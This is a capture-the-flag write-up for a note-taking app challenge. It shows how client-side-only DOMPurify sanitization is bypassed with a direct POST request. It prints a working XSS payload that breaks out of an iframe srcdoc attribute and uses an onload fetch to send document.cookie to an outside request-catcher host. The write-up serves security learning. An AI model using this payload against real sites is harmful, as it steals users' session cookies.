 # Refined Notes

## Challenge Description
All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.

## First Look
This challenge did not come with any source code. The code provided here was retrieved from viewing source in the browser. The challenge consists of the note taking app as well as an admin bot which allows you to specify a UUID of a note for the admin bot to browse to. On first glance, it appears that whatever you put into the [textarea](index.html#L14) is reflected into the [srcdoc](https://www.w3schools.com/tags/att_iframe_srcdoc.asp) of the iframe, which basically is just the HTML that is rendered within the iframe.

## Injection
Let us try injecting some HTML. I input `<h1>hello</h1>` and sure enough, hello was a header. However, I tried `<script>alert('hello')</script>` and the script tags were stripped out. Looks like they are doing some kind of XSS sanitization. Upon looking at the source document, I noticed a reference to [index.js](index.js). The script sanitizes the input field with [DOMPurify](https://github.com/cure53/DOMPurify) before sending a POST request to '/'. 

## Solution
Since the sanitization happens on the front end, we can bypass by making the POST request directly. The payload I used was
```
<h1>hello</h1>" onload="fetch('https://refinednotes2wsx.requestcatcher.com/?cookie='+document.cookie);
```
which becomes reflected as
```
<iframe id="noteframe" class=" bg-white w-full px-3 py-2 border rounded-md h-60" srcdoc="<h1>hello</h1>" onload="fetch('https://refinednotes2wsx.requestcatcher.com/?cookie='+document.cookie);"></iframe>
```

## Flag
I had the admin bot surf to the uuid I received in the response, and got a request with the flag.
